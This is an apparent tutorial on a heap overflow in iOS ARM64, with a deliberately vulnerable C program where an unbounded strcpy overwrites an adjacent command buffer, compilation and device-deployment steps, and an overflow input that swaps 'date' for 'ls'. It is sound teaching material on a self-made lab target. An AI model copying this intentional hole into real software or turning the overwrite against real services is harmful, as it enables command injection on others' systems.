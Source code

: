 # heap overflow ios (ARM x64)

Let's Hack the Heap. Today we're diving into a simple but effective heap overflow vulnerability on `iOS ARM64`. This example runs on a jailbroken iPhone and shows how improper use of heap memory (via `strcpy`) can lead to memory corruption and even command injection. Let's get started!      

### requirements

To reproduce this PoC, we'll need:
- A jailbroken iPhone (or simulated)    
- Installed tools: `OpenSSH` - for remote access, `lldb` - for debugging (if you want deeper introspection)     
- `macOS + Xcode` (for compiling `iOS` binaries)      

### write vulnerable heap code

First of all we need vulnerable program. Here's our vulnerable program: `heapify.c`:     

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <spawn.h>
#include <sys/wait.h>

extern char **environ;

void run_cmd(char *cmd) {
  pid_t pid;
  char *argv[] = {"sh", "-c", cmd, NULL};
  int status;

  printf("Run command: %s\n", cmd);
  status = posix_spawn(&pid, "/bin/sh", NULL, NULL, argv, environ);

  if (status == 0) {
    printf("Child pid: %i\n", pid);
    if (waitpid(pid, &status, 0) != -1) {
      printf("Child exited with status %i\n", status);
    } else {
      perror("waitpid");
    }
  } else {
    printf("posix_spawn: %s\n", strerror(status));
  }
}

int main(int argc, char *argv[]) {
  if (argc <= 1) {
    printf("\x1B[31mUsage: ./heapify <username>\x1B[0m\n");
    exit(0);
  }

  char *name = malloc(64);
  char *command = malloc(64);

  strcpy(command, "date");

  // here vulnerable: no bounds checking
  strcpy(name, argv[1]);

  printf("\x1B[36mUser: %s is executing command \"%s\"\n", name, command);
  printf("\x1B[0m");

  run_cmd(command);
  return 0;
}
```

What's going on here?
- we're allocating two heap buffers: `name` and `command`, both `64` bytes.     
- then we copy user input (`argv[1]`) into `name` using `strcpy()` - with no size check:    

```cpp
strcpy(name, argv[1]);
```

- this means if user input is longer than `64` bytes, it will overflow into adjacent heap memory.     
- and guess what's next to `name`? Our `command` buffer.     
- if we can overwrite command, we can change what shell command gets executed. Boom      

### compilation for iOS

Since `system()` is restricted in newer `iOS` SDKs, we use `posix_spawn()` to execute shell commands. Let's now compile the vulnerable binary from macOS:    

```bash
clang -g heapify.c -o heapify \
-isysroot /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS14.4.sdk \
-arch arm64 -mios-version-min=9.0 \
-fno-stack-protector
```

Explanation:    
`-g`- includes debug symbols for reverse engineering    
`-isysroot` - points to the `iOS` SDK      
`-arch arm64` - targets `arm64` (`iPhone` CPU)     
`-mios-version-min=9.0` - compatible with older `iOS` versions     
`-fno-stack-protector` - disables stack canaries (not needed here, but often used for `pwn` challenges)     

### transfer and prepare the binary

Now copy the binary to our device and sign it:     

```bash
scp heapify root@<iphone-ip>:/var/root/
ssh root@<iphone-ip>
chmod +x heapify
ldid -S heapify
```

once signed, you can run it normally from the terminal (e.g., via `SSH`):      

```bash
iPhone:/test root#
iPhone:/test root# chmod +x heapify
iPhone:/test root# ldid -S heapify
iPhone:/test root# ./heapify cocomelonc
user cocomelonc is executing command "date"
Run command: date
Child pid: 1955
Fri Mar 14 10:15:27 +05 2025
Child exited with status 0 
iPhone:/test root#
```

![img](./img/2025-05-10_18-01.png)     

Everything looks good. The command `date` is executed as expected. We might want to take the binary apart to see that the `malloc` method is actually at work here and giving out `x40` (`64`) bytes of memory. `strcpy` function is clearly at risk:     

![img](./img/2025-05-10_18-11.png)    

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)     

But now let's dig into the vulnerability.    

### heap overflow analysis

As as wrote before behind the scenes, this line is the culprit:     

```cpp
strcpy(name, argv[1]);
```

it copies unbounded user input into a `64-byte` buffer on the heap.     

Let's try fuzzing it:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJKKKKKKKKKKLLLLLLLLLL
```

this input is way over `64` bytes, and it clearly overflows into adjacent memory. The program still runs, but the value of `command` may now be changed due to heap memory corruption.     

![img](./img/2025-05-10_18-12.png)     

### overwrite the command

The input can go up to about the middle of the letter `G` as you can see.Let's use our overflow to change the default command from `date` to `ls`:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGls
```

Result:    

![img](./img/2025-05-10_18-37.png)    

Boom! Our command injection successful - we hijacked the `command` buffer using a heap overflow.     

Heap overflows are just as powerful as stack overflows - especially when you have adjacent data like command buffers, pointers, or vtables.     
In a real-world scenario, this kind of bug can lead to command injection, privilege escalation, or even arbitrary code execution, especially in insecure daemons or background services.     

### references

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)    
